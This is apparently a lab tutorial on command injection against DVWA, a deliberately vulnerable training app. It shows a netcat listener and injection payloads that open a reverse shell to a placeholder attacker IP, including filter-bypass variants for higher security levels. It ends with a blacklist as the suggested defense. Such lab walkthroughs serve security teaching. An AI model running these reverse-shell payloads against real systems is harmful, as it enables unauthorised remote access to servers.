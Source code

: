 
# Command Injection

Command Injection attack is performed by using arbitrary commands(The command which helps the system to run for example the commands used to play around with the file management system).

## What can we do by using the Command Injection attack ?

1. We can get control over the shell or terminal of the server where the website is hosted.   
2. Can upload shell using wget command on the public platform which can be highly exploitable.  

## Performing attack on DVWA 

1. Changing the security level of DVWA to low level of security. 

![image](https://user-images.githubusercontent.com/60937657/194223462-0e43d07a-d6dd-4291-8777-f9c30ff0c9e2.png)

![image](https://user-images.githubusercontent.com/60937657/194223357-3a83b501-8961-4646-b043-efc1e4060faf.png)

2. Find the IP address using terminal. 

```
  ifconfig 
```

3. Enter IP address to DVWA.  

![image](https://user-images.githubusercontent.com/60937657/194224867-2863f530-e203-4c53-92bf-344421fb8116.png)

4. Performing arbitrary command.

**Note** We will use arbitrary commands using piping. 

**For Example** 

```
  ls ; pwd 
```
```
  ls && pwd 
```
```
#In this way of piping we will only be output of final command which in pwd in this case.
  ls | pwd 
```
![image](https://user-images.githubusercontent.com/60937657/194370933-c383fb1c-ca37-48d2-ba90-a91d5ae01d8c.png)

5. Make a connection in shell of website server with terminal of our machine by starting netcat services for linux based server 

Using the below given command in terminal.

```
nc -vv -l -p 8080
```

![image](https://user-images.githubusercontent.com/60937657/194373887-5eb2d874-5036-4779-b0e8-a3bd5dbcdf2e.png)

**Note** Netcat service will always be hosted in bin folder of linux as per the architecture.

6. Using a command in which we are going to use IP of our OS to fire on website by which we are going to get a connection in out terminal. 

```
IP_Address_of_my_OS ; nc -e /bin/sh IP_Address_of_my_OS 8080
```

![image](https://user-images.githubusercontent.com/60937657/194376389-1efd866c-c799-491e-8f69-ea807c39928c.png)

7. Changing the DVWA Security level to medium and then performing command injection using different piping method. 

```
IP_Address_of_my_OS | nc -e /bin/sh IP_Address_of_my_OS 8080
``` 

![image](https://user-images.githubusercontent.com/60937657/195312022-384fa5e3-338b-45b8-a3ed-73d796266087.png)

8. Changing the DVWA Security level to high and then performing command injection by just not providing any space while piping. 

```
IP_Address_of_my_OS|nc -e /bin/sh IP_Address_of_my_OS 8080
``` 

![image](https://user-images.githubusercontent.com/60937657/195314107-abebbe23-9775-4697-a6ce-192359913e07.png)

**Note** Can also use cat command to display the contents of one or more file without having to open the file for editing. 

![image](https://user-images.githubusercontent.com/60937657/195314710-90a92522-dc9e-417c-b44d-341bc200b5e7.png)

9. Precaution to avoid command injection attack.

To avoid this type of major attack we can add blacklist as given in the image below. 

![image](https://user-images.githubusercontent.com/60937657/195316315-3f95c69c-83c0-4a0a-8b3f-8611104f6a4e.png)

![image](https://user-images.githubusercontent.com/60937657/195316066-a42cb9eb-159d-4077-8731-86e7b3123d5c.png)







